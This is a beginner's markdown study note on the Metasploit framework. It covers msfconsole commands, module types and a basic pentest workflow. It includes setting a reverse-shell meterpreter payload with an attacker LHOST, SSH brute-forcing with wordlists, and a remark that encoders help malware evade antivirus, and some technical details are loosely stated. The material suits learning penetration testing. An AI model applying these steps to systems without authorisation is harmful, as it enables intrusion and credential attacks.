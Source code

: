# Metasploit framework
It is used for exploitation most of the time. Sometimes for scanning.  

To start the framework use
- msfconsole 

To exit the framework use
- exit  

After starting the interactive msfconsole you can still use all your external shell commands like:
- pwd
- ls
- nmap
- ifconfig  


## Terminology
- Exploit - take advantage of a vulnerable software to start reverse shell or rootkit.

- ZeroDay - a vulnerability that wasn't fixed yet

  - ZeroDay 2017 - dangerous exploit for Windows 7/8, if someone was connected to the same network with a W7/8 with open 445/sftp port he could get hacked.

- Payload - reverse shell, actively exploiting software which you have to deliver. We can deliver it to a victim to get access to it.

# Starting metasploit framework
You can start postgresql service to make your metasploit framework run faster, but it is not necessary.

- service postgresql start (optional)
- msfconsole (start interactive console shell)

# Using msfconsole
To receive manual use
- help  

## Finding specific exploits
- search [name]
- search windows (looks up all windows based exploits)  

## Using exploits
- use [exploit name]
- use exploit/multi/browser/java_rhino (opens up a new interactive shell)

## Find out more about the exploit
- show options (shows all available options for this exploit and required parameters)
- show targets (shows the target machines it can be run on)
- show info (describes what exactly is this exploit)
- show payloads (shows available payloads for this exploit)

## Set exploit parameters
- set PAYLOAD [payload]
- set PAYLOAD java/meterpreter/reverse_tcp
- show options
- set LHOST [attacker-ip-addr]
- show options

# Metasploit modules

## Exploits
They are used to target a vulnerable software running on victim machine. There are different exploits for different platforms and different operating systems.

## Payloads
Files that we send to victim (for example backdoors). 
- singles (quite small, just one action)
- stagers (bit bigger, mostly used to acquire shell)

## Auxiliary
Fuzzers, spoofers, sniffers. Usually we will use auxilary modules for scanning, and sometimes for brute forcing ssh

## Encoders
They are used to bypass antivirus, we can change how the code looks so that antivirus doesn't find it. Antivirus use large databases that have samples of common malware. If we change how the code looks by using encoder antivirus will not know that it is a malware. Coding your own malware is a great advantage, because it can be used to trick antivirus.

## Post
Tools & programs used after you exploit the target. After acquiring access to target machine you can do further exploits (gather cookies etc)

## Nops
No-operation, which is a command in assembly language that does no operation. Nops keep payload code consistent. This instruction is '0x90'.

# Target Pentesting
## Start metasploit framework
- msfconsole

## Look around
- nmap -sV [network]

## Choose a service & look for exploits
- search [service/platform/protocol]
- search ssh

## Choose an exploit
- use [exploit path]
- use auxilary/scanner/ssh/ssh_version (enters the exploit terminal)

## Set up & run exploit
- show options
- set THREADS [n]
- set RHOSTS [target-ip-addr]
- show options
- run (start the exploit)

## Choose a passwordlist
If you decide to do brute-force attack you may wish to decide on a different password list. 
- /usr/share/wordlists/metasploit

Choose the one you wish.  
Set the path to the dictionary in the metasploit console
- set USERPASS_FILE [path]  

When trying to brute force ssh it is probably stupid idea to try root user, because it will probably be blocked by default by the SSH service.

